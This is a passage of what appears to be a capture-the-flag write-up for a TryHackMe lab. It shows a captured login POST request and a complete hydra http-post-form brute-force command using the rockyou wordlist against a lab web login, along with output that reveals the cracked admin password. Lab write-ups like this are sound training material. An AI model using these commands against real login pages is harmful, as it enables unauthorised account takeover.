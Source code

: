 What request type is the Windows website login form using?

`POST`

Now we know the **request type** and have a **URL** for the login form, we can get started brute-forcing an account.

Run the following command but fill in the blanks: `hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form`

Guess a username, choose a password wordlist and gain credentials to a user account!

[http://10.10.197.201/Account/login.aspx?ReturnURL=/admin/](http://10.10.197.201/Account/login.aspx?ReturnURL=/admin/)

```
POST /Account/login.aspx?ReturnURL=%2fadmin%2f HTTP/1.1
Host: 10.10.197.201
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.197.201/Account/login.aspx?ReturnURL=/admin/
Content-Type: application/x-www-form-urlencoded
Content-Length: 558
Connection: close
Upgrade-Insecure-Requests: 1

__VIEWSTATE=tp8uWKWyDMBjEE1oI%2FVny6%2BJZN3VgvibMk5E6HPg5soB2dtdzoBJVYlFw9shqyl7S5ugjvNP%2FeJMPg40AbCmjTBktbryEGfzn89qPvEy4hju%2FWm1obJVNOAXeDJ5LyJlWDfreaV8C0Ahzr3j3QVTpG1aeO9Jn0E9SsNltJ52Lik3oyaE&__EVENTVALIDATION=n2BAoWMNSbaY%2BUw5yGP34IvfuWA6R1%2FRcn1pwRS%2BLGnaSDOAdulCi4LXiDENyWqi9LUi4l3rV8kxafa6yWTutZS%2BHlIwYuIn8WKLox%2BvS%2FJzEnJQc2M8HlL6Q%2FMeUTxVDiDC8439S53nXmT3as%2FCO1tx%2Fqu73Ql%2Fy7flfVubqwNFxnu7&ctl00%24MainContent%24LoginUser%24UserName=asd&ctl00%24MainContent%24LoginUser%24Password=asd&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
```

```
bibo318@parrot:~/CTFs/tryhackme/HackPark$ hydra -v -l admin -P /usr/share/wordlists/rockyou.txt 10.10.197.201 http-post-form "/Account/login.aspx:__VIEWSTATE=tp8uWKWyDMBjEE1oI%2FVny6%2BJZN3VgvibMk5E6HPg5soB2dtdzoBJVYlFw9shqyl7S5ugjvNP%2FeJMPg40AbCmjTBktbryEGfzn89qPvEy4hju%2FWm1obJVNOAXeDJ5LyJlWDfreaV8C0Ahzr3j3QVTpG1aeO9Jn0E9SsNltJ52Lik3oyaE&__EVENTVALIDATION=n2BAoWMNSbaY%2BUw5yGP34IvfuWA6R1%2FRcn1pwRS%2BLGnaSDOAdulCi4LXiDENyWqi9LUi4l3rV8kxafa6yWTutZS%2BHlIwYuIn8WKLox%2BvS%2FJzEnJQc2M8HlL6Q%2FMeUTxVDiDC8439S53nXmT3as%2FCO1tx%2Fqu73Ql%2Fy7flfVubqwNFxnu7&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-19 09:23:39
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.197.201:80/Account/login.aspx:__VIEWSTATE=tp8uWKWyDMBjEE1oI%2FVny6%2BJZN3VgvibMk5E6HPg5soB2dtdzoBJVYlFw9shqyl7S5ugjvNP%2FeJMPg40AbCmjTBktbryEGfzn89qPvEy4hju%2FWm1obJVNOAXeDJ5LyJlWDfreaV8C0Ahzr3j3QVTpG1aeO9Jn0E9SsNltJ52Lik3oyaE&__EVENTVALIDATION=n2BAoWMNSbaY%2BUw5yGP34IvfuWA6R1%2FRcn1pwRS%2BLGnaSDOAdulCi4LXiDENyWqi9LUi4l3rV8kxafa6yWTutZS%2BHlIwYuIn8WKLox%2BvS%2FJzEnJQc2M8HlL6Q%2FMeUTxVDiDC8439S53nXmT3as%2FCO1tx%2Fqu73Ql%2Fy7flfVubqwNFxnu7&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] Page redirected to http://10.10.197.201/
[80][http-post-form] host: 10.10.197.201   login: admin   password: 1qaz2wsx
[STATUS] attack finished for 10.10.197.201 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-19 09:24:37
```
